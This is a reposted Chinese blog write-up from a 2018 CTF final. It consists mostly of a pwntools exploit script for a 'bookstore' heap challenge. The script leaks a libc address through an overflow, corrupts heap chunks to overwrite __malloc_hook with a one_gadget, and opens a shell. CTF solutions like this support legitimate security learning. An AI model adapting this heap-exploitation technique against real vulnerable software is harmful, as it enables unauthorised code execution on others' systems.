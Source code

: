 <!--yml
category: 未分类
date: 2022-04-26 14:50:54
-->

# 信息安全铁人三项赛真题解析_【ctf】2018信息安全铁人三项赛个人赛总决赛赛题分享..._weixin_39573512的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_39573512/article/details/111811192](https://blog.csdn.net/weixin_39573512/article/details/111811192)

本人才疏学浅，在赛场上研究只有一题做出来，剩下两题没做出来请大神指导指导

#!/usr/bin/env python

# -*- coding: UTF-8 -*-

# imports

from pwn import *

import time

import os

import sys

elf = ""

libc = ""

env = ""

LOCAL = 1

context.log_level = "debug"

p = process("./bookstore", env={"LD_PRELOAD":"/tmp/ironthree/book/libc_64.so"})

#p = remote("ip", port) #uncomment this.

p.recvuntil("choice:\n")

def add(name, length, book):

p.sendline("1")

p.recvuntil("name?\n")

p.send(name)

p.recvuntil("name?\n")

p.sendline(str(length))

p.recvuntil("book?\n")

p.send(book)

p.recvuntil("choice:\n")

def sell(idx):

p.sendline("2")

p.recvuntil("sell?\n")

p.sendline(str(idx))

p.recvuntil("choice:\n")

def read(idx):

p.sendline("3")

p.recvuntil("sell?\n")

p.sendline(str(idx))

data = p.recvuntil("choice:\n")

return data

add("1234567\n", 0, "a\n")

for i in range(4):

add("12345678\n", 0x50, "a\n")

add("aaaadddd\n", 0, "a\n") #7

add("bbbbcccc\n", 0x40, "a\n") #8

add("railser\n", 0, "b\n")

add("ddaa\n", 0x50, "b\n")

add("ddaa\n", 0x20, "b\n")

add("ddaa\n", 0x30, "b\n")

add("ddaa\n", 0x40, "b\n")

add("ddaa\n", 0x50, "b\n")

sell(0)

add("trytry\n", 0, "a" * 24 + p64(0xc1)+"\n") #overflow

sell(1)

add("a" * 16 + p64(0x6e)+"\n", 20, "x"*8+"\n")

data = read(1)

libc_addr = data.split("x"*8)[1][:6]

libc = u64(libc_addr + "\0\0") - 0x3c4c28

print hex(libc)

one = libc + 0x4526a

mallochook = libc + 0x3c4b10 - 0x10

target = libc + 0x3c4b38

#gogo

sell(5)

sell(6)

add("a"*30, 0, "a" * 24 + p64(0x51)+p64(0x6f)+"\n")

add("a"*30 ,0x40, "a\n")

sell(7)

sell(8)

add("a"*30, 0, "a"*24 + p64(0x61)+p64(target) + "\n")

add("a" * 30, 0x50, "a\n")

add("a"*30, 0x50, p64(0) * 6 + p64(mallochook) + "\n")

add("a"*30, 0x50, "a"*0x30+"\n")

add("a"*30, 0x50, p64(one) + "a"*0x30+"\n")

p.sendline("1")

p.sendline("xxxx")

p.sendline("30")

p.interactive()

2018-12-12 19:38 上传

点击文件名下载附件

777.38 KB, 下载次数: 70

2018-12-12 19:40 上传

点击文件名下载附件

778.05 KB, 下载次数: 46

2018-12-12 19:43 上传

点击文件名下载附件

777.36 KB, 下载次数: 45